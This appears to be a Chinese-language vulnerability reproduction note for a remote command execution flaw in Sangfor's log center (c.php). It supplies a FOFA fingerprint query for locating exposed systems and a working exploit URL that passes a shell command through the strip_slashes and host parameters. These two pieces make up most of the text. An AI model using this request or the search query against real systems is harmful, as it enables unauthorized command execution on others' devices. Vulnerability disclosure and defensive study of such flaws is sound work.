 # 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

```
深信服 日志中心
```

## FOFA

```
body="isHighPerformance : !!SFIsHighPerformance,"
```

## 漏洞复现

登录页面如下



![](./images/202202091915868.png)



访问漏洞Url



```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```



![](./images/202202091915736.png)